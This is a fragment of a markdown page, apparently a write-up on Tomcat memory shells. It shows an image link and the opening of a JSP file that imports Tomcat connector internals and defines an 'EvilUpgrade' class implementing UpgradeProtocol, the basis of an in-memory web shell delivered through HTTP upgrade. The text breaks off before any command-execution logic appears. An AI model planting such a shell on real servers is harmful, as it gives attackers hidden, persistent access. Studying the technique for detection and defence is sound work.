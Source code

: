 ```java
}
```

![](img/8.png)

### JSP

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.nio.charset.StandardCharsets" %>
<%@ page import="org.apache.catalina.connector.Connector" %>
<%@ page import="org.apache.coyote.http11.Http11NioProtocol" %>
<%@ page import="java.util.HashMap" %>
<%@ page import="org.apache.tomcat.util.net.SocketWrapperBase" %>
<%@ page import="org.apache.coyote.*" %>
<%@ page import="org.apache.coyote.http11.upgrade.InternalHttpUpgradeHandler" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%!
  class EvilUpgrade implements UpgradeProtocol {
    @Override
    public String getHttpUpgradeName(boolean isSecure) {
      return null;
    }

    @Override
    public byte[] getAlpnIdentifier() {
      return new byte[0];
    }

    @Override
    public String getAlpnName() {
      return null;
    }
```